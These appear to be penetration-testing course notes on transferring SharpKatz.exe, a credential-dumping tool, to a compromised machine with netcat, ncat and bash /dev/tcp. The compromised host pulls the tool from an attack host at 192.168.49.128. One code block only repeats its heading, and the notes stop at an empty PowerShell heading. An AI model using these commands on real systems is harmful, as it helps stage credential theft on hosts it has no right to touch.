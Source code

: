 
### File Transfer with Netcat and Ncat

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target

- first start Netcat (nc) on the compromised machine, listening with option -l, selecting the port to listen with the option -p 8000, and redirect the stdout using a single greater-than > followed by the filename, SharpKatz.exe

**NetCat - Compromised Machine - Listening on Port 8000**
```
nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished

**Ncat - Compromised Machine - Listening on Port 8000**
```
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

- From the attack host connect to the target over port 8000 with Netcat and send the file as input to Ncat
- The option -q 0 will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed

**Netcat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

- we can opt for --send-only rather than -q. The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted
- Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with --send-only, there is no need to anticipate further incoming information

**Ncat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

- Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. 
- This method is useful in scenarios where there's a firewall blocking inbound connections. 
- Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat

**Attack Host - Sending File as Input to Netcat**
```
Attack Host - Sending File as Input to Netcat
```

**Compromised Machine Connect to Netcat to Receive the File**
```
nc 192.168.49.128 443 > SharpKatz.exe
```

Perform the same operations with Ncat

**Attack Host - Sending File as Input to Ncat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connect to Ncat to Receive the File**
```
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

- If ncat or netcat aren't available, bash supports read/write operations via /dev/TCP 
- Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers

**NetCat - Sending File as Input to Netcat**
```
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### Powershell Session File Transfer 

